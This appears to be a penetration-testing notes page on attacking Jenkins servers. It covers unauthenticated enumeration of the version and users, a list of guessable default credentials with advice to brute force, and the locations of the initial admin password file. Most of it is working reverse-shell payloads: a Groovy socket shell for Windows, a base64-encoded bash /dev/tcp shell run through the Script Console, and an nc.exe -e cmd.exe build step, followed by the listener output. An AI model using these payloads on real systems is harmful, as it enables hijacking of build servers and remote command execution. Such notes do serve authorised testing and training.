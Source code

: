 ```yaml
---
title: Jenkins
category: Software
order: 4
---
```


# Introduction

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

![Jenkins Login.](/hackingnotes/images/jenkins.png)

# Enumeration

We can obtain a some valuable information without necessarily log in on the server.

## Jenkins Version

Visit the following route to obtain the Jenkins version on the footer page.

```
/oops
/error

Page generated: Sep 27, 2021 12:46:28 PM PDTREST APIJenkins ver. 2.204.1
```

## Users

Without credentials it is possible to obtain some users.

```
/people
/people/
/asynchPeople
/asynchPeople/
/securityRealm/user/admin/search/index?q=
```

# Credentials

There are no default credentials but some times these works.

> **Note**: Jenkins does **not have** any type of **account lockout** neither a **strong password policy** so you can try to brute force it.

```
admin:admin
admin:nimda
admin:password
admin:jenkins
manager:manager
manager:reganam
manager:password
manager:jenkins
```

In new versions the password is randomized at installation. We can find the initial password here:

* **Linux**

```
/var/jenkins_home/secrets/initialAdminPassword
/home/jenkins/secrets/initialAdminPassword
/var/lib/jenkins/secrets/initialAdminPassword
/opt/jenkins/secrets/initialAdminPassword
```

* **Windows**

```
C:\Program Files (x86)\Jenkins\secrets\initialAdminPassword
C:\Program Files\Jenkins\secrets\initialAdminPassword
```

# From Admin to Reverse Shell

There are multiple ways in which from administrative privileges in Jenkins you can get a reverse shell.

## Script Console

To obtain a Reverse shell we need to execute **`Manage Jenkins`** on **`Script Console.`**

```
http://<jenkins_server>/script
```

![Jenking Script Console.](/hackingnotes/images/jenkins_scriptconsole.png)

This is and example of Grovy Script to execute commands on the target machine, either windows or linux.
```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Windows Reverse Shell

```
String host="<IP-ADDR>";
int port=<PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Linux Reverse Shell

First we need to craft the payload.

```
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK
```

And introduce inside the Grovvy script.

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

## Freestyle Project

We can create a new project or see if we can modify the configuration of an existant project.

To create a new project go on **`New Item`** tab.

![Jenkins Dashboard](/hackingnotes/images/jenkins_newitem.png)

Introduce a name such as **`Access`** and select **`Freestyle Project`** .

![Jenkins Creating a New Item.](/hackingnotes/images/jenkins_projects.png)

Scroll down until you find the **`Build`** section and add a **`Execute Windows batch command`** as build step.

![Jenkins Execute Windows Batch Command.](/hackingnotes/images/jenkins_build.png)

Introduce the reverse shell on the Command window and click **`Save`**.

```
\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10
powershell.exe -c <command>
```

Go to **`Build Now`** section.

![Jenkins Build Now section.](/hackingnotes/images/jenkins_buildnow.png)

When the build is executed a new item will be displayed under the **`Build History`**.

![Jenkins Build History.](/hackingnotes/images/jenkins_history.png)

At that moment a reverse shell is obtained.

```
$ sudo nc -lvp 443
listening on [any] 443 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.11] 26524
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>    
```

We can also check the console output selecting the **`Built Item #1`** and going to **`Console Output`** section.

![Jenkins Console Output.](/hackingnotes/images/jenkins_console.png)
